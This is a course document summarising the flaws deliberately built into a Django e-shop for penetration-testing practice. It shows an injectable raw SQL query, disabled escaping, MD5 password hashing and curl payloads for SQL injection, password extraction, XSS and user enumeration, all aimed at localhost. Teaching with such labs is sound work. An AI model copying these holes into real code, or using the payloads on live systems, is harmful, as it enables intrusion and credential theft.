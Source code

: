 # Vulnerability Summary - E-Shop Application

## Executive Summary

This document provides a comprehensive overview of all intentionally introduced vulnerabilities in the e-shop application for educational penetration testing purposes. The application contains critical security flaws across multiple categories as required by the CDS201 course assignment.

## Implemented Vulnerabilities

### 1. SQL Injection (SQLi)
- **Type**: Classic SQL Injection
- **Location**: Product search functionality (`/catalog/?q=`)
- **File**: `eshop/views.py` (lines 366-371)
- **Severity**: Critical
- **OWASP**: A03:2021 – Injection

**Key Implementation**:
```python
raw_query = f"""
SELECT * FROM eshop_product 
WHERE name LIKE '%%{search_query}%%'
"""
```

### 2. Cross-Site Scripting (XSS)
- **Type**: Both Reflected and Stored XSS
- **Locations**: 
  - Search results display (Reflected)
  - Product reviews (Stored)
  - Shipping address forms (Stored)
- **Files**: Multiple template and form files
- **Severity**: High
- **OWASP**: A03:2021 – Injection

**Key Implementations**:
- Disabled `bleach` sanitization
- Used `|safe` filter in templates
- `{% autoescape off %}` blocks

### 3. Authentication Weaknesses
- **Types**: Multiple authentication vulnerabilities
- **Issues**:
  - User enumeration via different error messages
  - No rate limiting (brute force possible)
  - Weak password hashing (MD5)
  - No CAPTCHA protection
  - Insecure session cookies
- **Files**: `forms.py`, `settings.py`, `middleware.py`
- **Severity**: Critical
- **OWASP**: A07:2021 – Identification and Authentication Failures

**Key Implementations**:
- Different error messages for invalid username vs password
- Disabled middleware for rate limiting
- Changed from Argon2 to MD5 hashing
- `SESSION_COOKIE_HTTPONLY = False`

### 4. Security Misconfigurations
- **Issues**:
  - `DEBUG = True` in production
  - Disabled security headers middleware
  - Removed 2FA/OTP protection
  - Weak session security
- **Files**: `settings.py`
- **Severity**: High
- **OWASP**: A05:2021 – Security Misconfiguration

### 5. Information Disclosure
- **Issues**:
  - Detailed error messages in SQL injection
  - Debug mode exposes system information
  - Stack traces visible to users
- **Files**: `views.py`, `settings.py`
- **Severity**: Medium
- **OWASP**: A01:2021 – Broken Access Control

## Quick Exploitation Guide

### SQL Injection
```bash
# Basic test
curl "http://localhost:8000/catalog/?q=' OR '1'='1"

# Extract data
curl "http://localhost:8000/catalog/?q=' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--"
```

### XSS
```bash
# Reflected XSS
curl "http://localhost:8000/catalog/?q=<script>alert('XSS')</script>"

# Stored XSS (requires login)
# Submit review with: <script>alert('Stored XSS')</script>
```

### Authentication Attacks
```bash
# User enumeration
curl -X POST http://localhost:8000/login/ -d "username=admin&password=wrong"
# Returns: "Invalid password for user 'admin'"

curl -X POST http://localhost:8000/login/ -d "username=notexist&password=wrong"
# Returns: "Username 'notexist' does not exist in our system"
```

## Modified Files Summary

1. **eshop/views.py**
   - Added raw SQL queries (SQL injection)
   - Removed bleach import
   - Added vulnerable review functionality

2. **eshop/forms.py**
   - Removed input sanitization
   - Added user enumeration in login
   - Disabled CAPTCHA
   - Added vulnerable review form

3. **eshop/models/reviews.py** (NEW)
   - Created vulnerable review model
   - No input validation

4. **eshop/templates/eshop/catalog.html**
   - Added `|safe` filter for XSS

5. **eshop/templates/eshop/product_detail.html** (NEW)
   - Created with `{% autoescape off %}`
   - Displays unescaped reviews

6. **eshop_project/settings.py**
   - Changed to MD5 password hashing
   - Disabled security middleware
   - Weakened session security
   - `DEBUG = True`

7. **eshop/urls.py**
   - Added product detail and review URLs

## Testing Tools Recommended

1. **SQL Injection**: SQLMap, Burp Suite
2. **XSS**: XSStrike, BeEF, Manual payloads
3. **Authentication**: Hydra, Burp Intruder, Custom scripts
4. **General**: OWASP ZAP, Nikto, Nmap

## Important Notes

⚠️ **WARNING**: This application is intentionally vulnerable for educational purposes only. 

- **DO NOT** deploy to production
- **DO NOT** expose to the internet
- Use only in isolated, controlled environments
- All vulnerabilities are documented for learning purposes

## Next Steps for Penetration Testing

1. **Reconnaissance**: Map application structure
2. **Scanning**: Identify all endpoints
3. **Enumeration**: Find valid users and data
4. **Exploitation**: Test each vulnerability
5. **Documentation**: Create detailed penetration test report

## References

- [Assignment Requirements](../../../Εργασία_Ασφάλεια_Web_Apps.md)
- Individual vulnerability documentation in this folder
- OWASP Top 10 2021
- CWE database